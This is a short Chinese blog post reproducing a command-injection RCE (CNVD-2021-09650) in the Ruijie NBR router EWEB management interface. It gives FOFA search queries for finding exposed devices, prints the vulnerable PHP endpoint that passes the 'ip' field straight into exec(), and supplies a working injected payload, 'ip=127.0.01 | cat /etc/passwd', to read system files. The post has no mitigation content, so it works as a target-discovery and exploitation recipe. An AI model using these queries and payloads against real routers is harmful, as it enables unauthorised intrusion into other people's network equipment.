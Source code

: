 ```yaml
---
title: Ruijie-NBR-router-RCE
tags:
  - vuln
categories:
  - 漏洞复现
copyright: true
abbrlink: 43bd18b
date: 2021-07-12 23:44:55
---
```


![](https://z3.ax1x.com/2021/07/13/WFHmrV.jpg)

<!--more-->

锐捷NBR路由器 EWEB网管系统 远程命令执行漏洞 CNVD-2021-09650

HW漏洞，锐捷NBR路由器 EWEB网管系统部分接口存在命令注入

**验证**

fofa  `title="锐捷网络-EWEB网管系统"` 或者 `icon_hash="-692947551"`

登录页面这样子：

![img](https://z3.ax1x.com/2021/07/13/WFHRZ8.png)

出现漏洞的文件在 `/guest_auth/guestIsUp.php`

```php
<?php
    //查询用户是否上线了
    $userip = @$_POST['ip'];
    $usermac = @$_POST['mac'];

    if (!$userip || !$usermac) {
        exit;
    }
    /* 判断该用户是否已经放行 */
    $cmd = '/sbin/app_auth_hook.elf -f ' . $userip;
    $res = exec($cmd, $out, $status);
    /* 如果已经上线成功 */
    if (strstr($out[0], "status:1")) {
        echo 'true';
    }
?>
```

可以通过命令拼接的方式构造命令执行，如：`ip=127.0.01 | cat /etc/passwd`

![img](https://z3.ax1x.com/2021/07/13/WFHWdS.png)

**Reference**

http://wiki.peiqi.tech/PeiQi_Wiki/%E7%BD%91%E7%BB%9C%E8%AE%BE%E5%A4%87%E6%BC%8F%E6%B4%9E/%E9%94%90%E6%8D%B7/%E9%94%90%E6%8D%B7NBR%E8%B7%AF%E7%94%B1%E5%99%A8%20EWEB%E7%BD%91%E7%AE%A1%E7%B3%BB%E7%BB%9F%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CNVD-2021-09650.html

